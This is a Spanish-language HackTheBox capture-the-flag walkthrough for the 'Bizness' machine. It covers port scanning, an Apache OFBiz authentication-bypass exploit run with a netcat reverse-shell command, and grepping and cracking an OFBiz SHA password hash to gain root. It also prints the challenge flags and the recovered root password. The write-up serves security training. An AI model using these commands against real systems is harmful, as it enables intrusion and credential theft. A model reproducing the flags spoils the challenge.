 ```yaml
---
icon: flag
---
```


# Bizness HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-08 05:40 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.036s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
| tls-alpn: 
|_  http/1.1
46287/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.47 seconds
```

Si entramos en el puerto `443` al igual que en el `80` aparecera una pagina...

### gobuster o dirb

```shell
gobuster dir -u <IP>:<PORT> -w <WORDLIST>
```

```shell
dirb https://<IP>:<PORT>/ <WORDLIST>
```

Nos descubrira `/accounting/` y si nos metemos ahi nos metera en un panel de login...

Vemos que es vulnerable con un exploit de GitHub `Apache OFBiz` en la siguiente URL:

URL: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

En la pagina principal con esta herramienta detectamos que es vulnerable, por lo que si nos hacemos una Reverse Shell funcionara aprovechando este exploit...

Con esto verificamos que sea vulnerable...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT>
```

Con esto hacemos la Reverse Shell...

```shell
python3 exploit.py --url https://<IP/DOMAIN>:<PORT> --cmd 'nc -c sh <IP> <PORT>'
```

```shell
nc -lvnp <PORT>
```

Vamos a la home de este usuario y leemos la primera flag:

> user.txt (flag1)

```
71f58d65f5f3d731e39c92bd7870e427
```

### Escalada de privilegios

Si vamos a `/opt/ofbiz/` tendremos que investigar por ahí algun archivo llamado AdminLog... y observarlo con `cat`, viendo dentro de el archivo veremos que hay un formato de `hash`

Si ponemos el siguiente comando para buscar por el formato de cifrado en ese directorio donde se puede encontrar el `SHA`

```shell
grep -a -o -R '\$SHA\$'
```

Nos aparecerán los `.dat` que son interesantes, haciendo lo siguiente veremos todos ellos y la clave que queremos conseguir se encontrara a lo ultimo...

```shell
grep -a -R '\$SHA\$'
```

Encontramos este formato:

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

Si lo crackeamos con un script de python en concreto de github:

URL: https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

```shell
python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist <WORDLIST>
```

Info:

```
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
```

La password de root seria `monkeybizness`

Una vez dentro leemos la ultima flag siendo la de root...

> root.txt (flag2)

```
f85a0d868944b0bd87cd48124291be4f
```

